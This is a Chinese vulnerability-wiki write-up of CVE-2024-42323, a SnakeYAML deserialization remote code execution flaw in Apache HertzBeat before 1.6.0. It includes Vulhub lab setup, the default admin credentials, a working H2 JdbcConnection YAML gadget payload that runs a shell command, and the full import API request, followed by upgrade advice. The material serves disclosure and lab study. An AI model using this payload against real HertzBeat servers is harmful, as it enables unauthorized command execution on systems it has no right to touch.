




# Apache HertzBeat SnakeYaml 反序列化远程代码执行漏洞 CVE-2024-42323

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<1.6.0，有监控/告警定义导入权限的认证用户；H2 JdbcConnection gadget及Java编译能力适用
- 证据范围：1.4.4 实验、登录、.yaml 后缀、API和H2链前后连贯；第二告警接口未展示独立请求。

### 本次正文校订

- 修正正文中的 Hertbeat → HertzBeat 转录错误，资源路径保持原样。
- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 核心是对不可信 YAML 使用危险构造方式，不能仅归因 SnakeYAML 库存在漏洞
- 默认口令仅实验/未修改部署条件，不意味着通用无需认证
- Bearer样例应标注过期占位，需细化实际权限要求
- 修复产品名 Hertbeat 拼写错误

### 操作风险与资料使用

- 文中的明文凭据、会话或密钥已用中段星号脱敏，保留首尾供比对；示例不能直接照抄登录。仅替换为自有隔离环境凭据，已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache HertzBeat 是一款开源的实时监控告警工具，支持对操作系统、中间件、数据库等多种对象进行监控，并提供 Web 界面进行管理。

在 1.6.0 版本之前，HertzBeat 使用了存在安全漏洞的 SnakeYAML 库来解析 YAML 文件。当已认证用户通过 `/api/monitors/import` 或 `/api/alert/defines/import` 接口导入新的监控类型时，可以提供特制的 YAML 内容触发不受信任数据的反序列化，最终可能导致在目标系统上执行远程代码。

参考链接：

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx

## 漏洞影响

```
Apache HertzBeat < 1.6.0
```

## 环境搭建

Vulhub 执行如下命令启动存在漏洞的 HertzBeat 1.4.4 服务器：

```shell
docker compose up -d
```

服务启动后，访问 `http://your-ip:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：

- 用户名：`admin`
- 密码：`hertzbeat`




## 漏洞复现

首先，准备一个恶意 YAML 文件，文件名必须以 `.yaml` 结尾，内容如下：

```yaml
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/awesome_poc\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
```

然后登录 HertzBeat 后台，导航到任意监控页面并找到导入按钮，在这里将上面的恶意 YAML 文件导入：




HertzBeat 对 YAML 文件进行反序列化时，触发远程代码执行：

```http
POST /api/monitors/import HTTP/1.1
Host: your-ip:1157
Accept-Encoding: gzip, deflate
Accept-Language: en-US
Origin: http://your-ip:1157
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://your-ip:1157/monitors
sec-ch-ua-platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvl3ne8kWpIEZzrNr
Authorization: Bearer ey************************vA
Content-Length: 456

------WebKitFormBoundaryvl3ne8kWpIEZzrNr
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml

!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/awesome_poc\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]

------WebKitFormBoundaryvl3ne8kWpIEZzrNr--
```




命令成功执行：




## 漏洞修复

目前官方已有可更新版本，建议受影响用户升级至最新版本 Apache HertzBeat >= 1.6.0。官方下载地址： https://hertzbeat.apache.org/zh-cn/docs/download/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
